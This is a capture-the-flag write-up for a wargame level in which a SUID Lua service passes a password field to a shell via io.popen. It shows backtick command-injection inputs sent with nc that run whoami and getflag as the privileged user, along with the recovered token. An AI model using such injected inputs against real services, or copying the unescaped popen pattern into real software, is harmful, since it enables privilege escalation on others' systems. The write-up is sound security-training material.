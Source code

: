 In our home directory, we see a ```lua``` script with suid/guid bit:
    >$ ls -l
    total 4
    -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua

    >$ cat level11.lua
    #!/usr/bin/env lua
    local socket = require("socket")
    local server = assert(socket.bind("127.0.0.1", 5151))

    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()

      data = string.sub(data, 1, 40)

      return data
    end


    while 1 do
      local client = server:accept()
      client:send("Password: ")
      client:settimeout(60)
      local l, err = client:receive()
      if not err then
          print("trying " .. l)
          local h = hash(l)

          if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
              client:send("Erf nope..\n");
          else
              client:send("Gz you dumb*\n")
          end

      end

      client:close()
    end

We can see this program waits for a connection with the server running on 127.0.0.1 (hostname) 5151 (port).
It will prompt for a password and pass anything we write to a hashing function.
Let's see if we can exploit that, by tricking it to run `getflag` in the place of the password.
if we try:
    >$ ./level11.lua
we get:
    lua: ./level11.lua:3: address already in use
    stack traceback:
      [C]: in function 'assert'
      ./level11.lua:3: in main chunk
      [C]: ?
so let's check it using netstat to list all running processes:
    >$netstat -tulpn
    tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
Let's try to connect to this host&port mentioned in the file and try with a `whoami` as password to check our permissions:
    >$ nc 127.0.0.1 5151
    Password: `whoami`
    Erf nope..
We can't see the output of the command, since the script pipes it.
Let's redirect it to a file:
    >$ nc 127.0.0.1 5151
    Password: `whoami` > /tmp/test
    Erf nope..
    >$ cat /tmp/test
    flag11
so now we can try to run getflag as flag11:
    >$ nc 127.0.0.1 5151
    Password: `getflag` > /tmp/token
    Erf nope..
    >$ cat /tmp/token
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Vulnerability:
Subprocess on user-provided input in script run by privileged user -> Privilege escalation via code injection.

Documentation:
* https://www.ionos.com/digitalguide/server/tools/introduction-to-netstat/
* https://linux.die.net/man/1/nc